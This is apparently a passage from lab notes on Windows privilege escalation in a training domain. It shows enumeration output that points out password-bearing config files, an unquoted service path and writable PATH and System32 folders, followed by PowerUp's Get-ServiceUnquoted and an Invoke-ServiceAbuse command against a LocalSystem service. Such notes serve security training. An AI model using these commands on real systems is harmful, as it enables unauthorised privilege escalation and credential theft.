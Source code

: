 ----------------------------------------------------------------------

Files that may contain Administrator password - you know what to do with this one:
C:\Windows\panther\setupinfo
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

----------------------------------------------------------------------

Services with space in path and not enclosed with quotes - if you have permissions run executable from different directory - exploit/windows/local/trusted_service_path:
C:\WebServer\Abyss Web Server\WebServer\abyssws.exe --service

----------------------------------------------------------------------

PATH variable entries permissions - place binary or DLL to execute before legitimate
Group: student366, Permissions: FullControl on C:\Python27\
Group: Users, Permissions: AppendData on C:\Program Files\Java\jdk-11.0.2\bin
Group: Users, Permissions: CreateFiles on C:\Program Files\Java\jdk-11.0.2\bin

----------------------------------------------------------------------

System32 directory permissions - backdoor windows binaries:
Permissions set on System32 directory are correct for all groups.

----------------------------------------------------------------------

System32 files and directories permissions - backdoor windows binaries:
Group: Users, Permissions: CreateFiles, ReadAndExecute, Synchronize on C:\Windows\system32\spool\drivers\color

----------------------------------------------------------------------
```


## PowerUp.ps1

枚举所有“未加引号的服务路径”
```
PS C:\AD> . .\PowerUp.ps1
PS C:\AD> Get-ServiceUnquoted


ServiceName    : AbyssWebServer
Path           : C:\WebServer\Abyss Web Server\WebServer\abyssws.exe --service
ModifiablePath : @{ModifiablePath=C:\WebServer; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AbyssWebServer' -Path <HijackPath>
CanRestart     : True

ServiceName    : AbyssWebServer
Path           : C:\WebServer\Abyss Web Server\WebServer\abyssws.exe --service
ModifiablePath : @{ModifiablePath=C:\WebServer; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AbyssWebServer' -Path <HijackPath>
```

```
PS C:\WebServer> whoami
dcorp\student366
PS C:\WebServer> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student366'
